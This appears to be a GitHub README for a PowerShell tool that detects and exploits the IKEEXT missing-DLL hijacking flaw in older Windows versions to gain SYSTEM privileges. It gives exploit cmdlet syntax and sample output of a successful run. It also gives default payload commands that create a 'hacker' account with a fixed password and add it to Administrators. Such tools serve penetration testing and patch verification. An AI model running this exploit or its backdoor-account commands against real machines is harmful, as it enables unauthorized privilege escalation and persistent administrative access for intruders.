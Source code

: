 # IKEEXT DLL Hijacking Exploit Tool

This tool is intended for automatically detect and exploit the IKE and AuthIP IPsec Keyring Modules Service (IKEEXT) Missing DLL vulnerability. 

## Description 

A major weakness is present in Windows Vista, 7, 8, Server 2008, Server 2008 R2 and Server 2012, which allows any authenticated user to gain system privileges under certain circumstances. 

In Windows there is a service called IKEEXT (IKE and AuthIP IPsec Keyring Modules), which runs as SYSTEM and tries to load a DLL that doesn't exist. The default DLL search order of Windows includes several system directories and ends by searching into PATH folders. To put it simple, if one of these folders is configured with weak permissions, any authenticated user can plant a malicious DLL to execute code as SYSTEM and thus elevate his/her privileges. 

IKEEXT trying to load 'wlbsctrl.dll':

![Procmon_DLL_Search_Order](https://github.com/itm4n/Ikeext-Privesc/raw/master/screenshots/01_procmon-dll-search-order.png)



## Usage 

This PowerShell script consists of 2 Cmdlets: 
* __Invoke-IkeextCheck__ - Only checks whether the machine is vulnerable. 
* __Invoke-IkeextExploit__ - If the machine is vulnerable, exploit it by dropping a specifically crafted DLL to the first weak folder.

### Detection

Syntax:
```
Invoke-IkeextCheck [-Verbose] 
```

Example: 
```
PS C:\Temp> . .\Ikeext-Privesc.ps1
PS C:\Temp> Invoke-IkeextCheck 
+----------------------------------------------------------+
|                IKEEXT DLL Hijacking Check                |
+----------------------------------------------------------+
[+] Microsoft Windows 7 Professionnel  is vulnerable.
[+] IKEEXT is enabled.
[+] Found 2 PATH folder(s) with weak permissions.
[+] |__ Found: 'C:\Python27\'
[+] |__ Found: 'C:\Python27\Scripts'
[+] 'wlbsctrl.dll' was not found on the system.
[+] Result: VULNERABLE
```

### Exploit 

Syntax:
```
Invoke-IkeextExploit [-Verbose] [-Force] [[-Payload] <String>]
```

This Cmdlet embeds a specifically crafted DLL (32 & 64 bits), that starts a new CMD process. This CMD process executes a BATCH file located in the same folder. The default payload will create a new user and add it to the local administrators group (the name of the group is automatically retrieved by the script). However, a custom payload can also be specified using the parameter ___-Payload___. 
Default commands: 
```
net user hacker SuperP@ss123 /ADD
net localgroup Administrators hacker /ADD
```

Example:
```
PS C:\temp> . .\Ikeext-Privesc.ps1
PS C:\temp> Invoke-IkeextExploit
+----------------------------------------------------------+
|                IKEEXT DLL Hijacking Check                |
+----------------------------------------------------------+
[+] Microsoft Windows 7 Professionnel  is vulnerable.
[+] IKEEXT is enabled.
[+] Found 2 PATH folder(s) with weak permissions.
[+] |__ Found: 'C:\Python27\'
[+] |__ Found: 'C:\Python27\Scripts'
[+] 'wlbsctrl.dll' was not found on the system.
[+] Result: VULNERABLE

+----------------------------------------------------------+
|               IKEEXT DLL Hijacking Exploit               |
+----------------------------------------------------------+
[*] Preparing exploit files...
[*] Trying to trigger the exploit (max 30s).
[*] Found log file: "C:\Python27\\wlbsctrl_baqboudj.txt".
[+] Exploit successful!
[*] Waiting for IKEEXT to be stopped (max 30s).
[+] IKEEXT was stopped.
[*] Performing cleanup.
```

## Credits 

High-Tech Bridge - Frédéric Bourla, who initially disovered the vulnerability and disclosed it on October 9, 2012. - https://www.htbridge.com/advisory/HTB23108 

